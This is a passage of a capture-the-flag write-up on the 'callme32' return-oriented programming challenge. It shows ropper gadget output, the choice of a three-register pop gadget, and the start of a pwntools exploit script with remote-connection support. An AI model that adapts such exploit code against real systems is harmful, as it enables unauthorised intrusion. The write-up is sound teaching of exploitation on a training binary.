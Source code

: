 ```
p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

### Step 5: Locating the Gadgets and Re-Writing the Exploit
To solve this challenge, through a little bit of research, I found that I needed to pass the arguments to each function through registers as you would by default in an `x86-64` binary.

I needed to find a gadget in the binary that pops three registers that I can put each argument into. To do this, I used the tool `ropper`.

```
$ ropper -f ./callme32 --search "pop"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./callme32
0x080487fb: pop ebp; ret; 
0x080487f8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x080484ad: pop ebx; ret; 
0x080487fa: pop edi; pop ebp; ret; 
0x080487f9: pop esi; pop edi; pop ebp; ret; 
0x08048810: pop ss; add byte ptr [eax], al; add esp, 8; pop ebx; ret; 
0x080486ea: popal; cld; ret;
```

Theres one gadget that pops three registers before returning, `pop esi; pop edi; pop ebp; ret;`, located at the address `0x080487f9`.

So, now with the gadget, I built the new exploit using `pwntools`. I also wrote one-line exploits in Python2 and Python3.

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./callme32", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)
```